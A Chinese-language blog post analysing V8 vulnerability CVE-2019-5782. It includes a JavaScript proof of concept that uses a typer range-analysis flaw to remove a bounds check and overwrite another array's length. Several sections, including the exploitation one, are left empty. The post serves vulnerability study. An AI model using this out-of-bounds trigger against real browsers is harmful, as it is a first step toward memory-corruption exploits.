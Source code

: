 ```yaml
---
layout:     post
title:      "V8引擎CVE-2019-5782漏洞分析"
subtitle:   ""
date:       2019-09-01 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - Android
    - NDK
    - Hook
    - arm64
    - inline hook
    - native hook
    - LTS
---
```


> 本文为本博客V8系列第五篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=906043)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8/+/4e3a17d0408627517d4a81b3bf5daf85e416e9ac/test/mjsunit/regress/regress-crbug-906043.js)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 
gclient sync
```

对源码进行编译。
```

```

## PoC

```javascript
// Flags: --allow-natives-syntax
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}
var a1, a2;
var a3 = [1.1,2.2];
a3.length = 0x11000;
a3.fill(3.3);
var a4 = [1.1];
for (let i = 0; i < 10000; i++) fun(...a4);
// %OptimizeFunctionOnNextCall(fun);
fun(...a3);
for (i = 0; i < a2.length; i++){
    console.log(a2[i]);
}
console.log(a2.length);
```

与以往POC引起崩溃不同，本次POC执行后V8引擎并不会崩溃，而是发现数组a2的长度存在异常。根据这段JS的含义，a2应该自始至终都是一个长度为16的数组。而POC最后对a2的内容和长度进行输出时发现a2在确保原有的16个元素数值正确以外(a2[0]=1.1，a2[1-15]=undefined)，还额外输出了26个不明元素，且长度被改为了42。

该运算结果虽未引起内存崩溃但由于与JS本身语法运行规则不符，故存在漏洞。

## 漏洞成因

#### 调试分析

使用GDB对V8进行调试，

#### 本质原因

V8在typer phase里对SpeculativeNumberShiftRight的range进行计算。

由于在typer phase还不会对Load处理，于是在第一次对NumberShiftRight进行range analysis的时候，会将其范围直接当做int32的最大和最小值。

于是在第一次对NumberShiftRight进行range analysis之后得到

然后在typer lowering phase里将JSCreateArray reduce成ArgumentsLength,并计算其范围。

然后在load elimination phase里将多余的LoadField remove，直接替换成真正的值，ArgumentsLength。

于是在simplified lowering phase里，为了修正这个SpeculativeNumberShiftRight的范围，于是再次对其进行typer计算。

由于这个结果被作为数组的index，所以最终在VisitCheckBounds里，会比较这个范围和数组最大的长度，如果始终index小于数组的length，那么就会将其remove掉。



#### 结论

## 漏洞利用